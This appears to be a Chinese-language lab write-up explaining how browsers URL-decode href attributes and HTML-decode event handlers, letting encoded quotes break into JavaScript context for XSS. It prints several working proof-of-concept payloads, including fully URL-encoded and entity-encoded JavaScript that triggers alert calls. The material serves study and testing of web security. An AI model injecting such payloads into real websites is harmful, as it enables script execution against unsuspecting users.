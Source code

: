 ### 对于 14 和 15 的总结

- 浏览器会 url 解码解析 href 属性。

```
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window+%27%27,{x%3a%27'}).finally(_ => window.location = '/')">

# 解码后，url 编码的特殊字符可以被作为 js 代码的一部分：
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:''}).finally(_ => window.location = '/')">
```

- 浏览器会 html 解码解析事件。

```
<a id="author" href="用户输入的网址" onclick="var tracker={track(){}};tracker.track('http://test.com&apos;-alert(document.domain)-&apos;');">&lt;img src=1 onerror=alert(1)&gt;</a>

# 解码后，html 编码的特殊字符可以被作为 js 代码的一部分：
<a id="author" href="用户输入的网址" onclick="var tracker={track(){}};tracker.track('http://test.com'-alert(document.domain)-'');">&lt;img src=1 onerror=alert(1)&gt;</a>
```

如果 href 或 事件内存在用户输入的反射，那么可以分别尝试注入 url 编码和 html 编码的 js 代码与 js 上下文进行拼接，因为如上环境下，编码后的特殊字符仍可作为 js 代码的特殊符号来使用（引号、分号等）。

为了更详细的理解 payload 执行过程，我们可以将符号的传递过程分为两个阶段：

1. html 或 url 编码解析阶段。
   - 浏览器先替换掉 href 属性内部或 onerror 等一系列事件内部的 url 编码或 html 编码。
2. js 代码解析阶段。
   - 替换掉的符号和 js 代码进行拼接。

### poc

```
# url 编码的 href
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window+%27%27,{x%3a%27'}).finally(_ => window.location = '/')">click me</a>

# 即使是全编码的 js 代码，也可以执行 xss。但 javascript: 协议头不能编码。
<a href="javascript:%66%65%74%63%68%28%27%2f%61%6e%61%6c%79%74%69%63%73%27%2c%20%7b%6d%65%74%68%6f%64%3a%27%70%6f%73%74%27%2c%62%6f%64%79%3a%27%2f%70%6f%73%74%3f%70%6f%73%74%49%64%3d%35%26%27%7d%2c%78%3d%78%3d%3e%7b%74%68%72%6f%77%2f%2a%2a%2f%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%2c%31%33%33%37%7d%2c%74%6f%53%74%72%69%6e%67%3d%78%2c%77%69%6e%64%6f%77%2b%27%27%2c%7b%78%3a%27%27%7d%29%2e%66%69%6e%61%6c%6c%79%28%5f%20%3d%3e%20%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%20%3d%20%27%2f%27%29">click me</a>

# 注：以上 url 编码适用于拼接原有的 js 代码场景，但不适用于 javascript 字符串被过滤，来完全构造 js 代码场景。因为 javascript: 不能进行 url 编码，否则浏览器解析不到协议头，执行不了后续的 js 代码。
```

```
# html 编码的 onclick
<a id="author" href="https://test" onclick="
var tracker={
	track(){}
};
tracker.track('https://test&#x27;-alert(1)-&#x27;');">
click me
</a>

# 即使是全编码的 js 代码，也可以执行 xss。因此可以直接构造 js 代码。
<a id="author" href="https://test" onclick="
&#x76;&#x61;&#x72;&#x20;&#x74;&#x72;&#x61;&#x63;&#x6b;&#x65;&#x72;&#x3d;&#x7b;&#x0a;&#x09;&#x74;&#x72;&#x61;&#x63;&#x6b;&#x28;&#x29;&#x7b;&#x7d;&#x0a;&#x7d;&#x3b;&#x0a;&#x74;&#x72;&#x61;&#x63;&#x6b;&#x65;&#x72;&#x2e;&#x74;&#x72;&#x61;&#x63;&#x6b;&#x28;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x74;&#x65;&#x73;&#x74;&#x27;&#x2d;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x29;&#x3b;">
click me
</a>

# 以上 html 编码既适用于拼接原有的 js 代码场景，也适用于完全构造 js 代码场景。
```

### 注意

编码场景是针对 **js 代码解析阶段**的攻击，对于**编码解析阶段**进行攻击会失效。

例如，如下代码点击 a 标签后可以触发 onclick 的 alert。

```
<a id="author" href="http://test"  onerror="alert(1)" onclick="alert(1)">

# 以上的 onerror 没有任何作用，只是用来后续的注入 html 编码的测试。
```

我们尝试 html 编码注入 onerror，来新增 onclick

```
<a id="author" href="http://test"  onerror="alert&#x28;1&#x29;&#x22;&#x20;onclick=&#x22;alert&#x28;1&#x29;">
解码后：
<a id="author" href="http://test"  onerror="alert(1)" onclick="alert(1)">
```

此时我们点击链接，并不会触发 payload，这是因为 html 解析是针对于 onerror 内部而言的：

- 对于 onerror 外部来说，html 编码的数据将丧失符号功能。
- 对于 onerror 内部来说，如果内部存在 js 代码，那么 html 编码的数据可作为 js 代码的符号功能。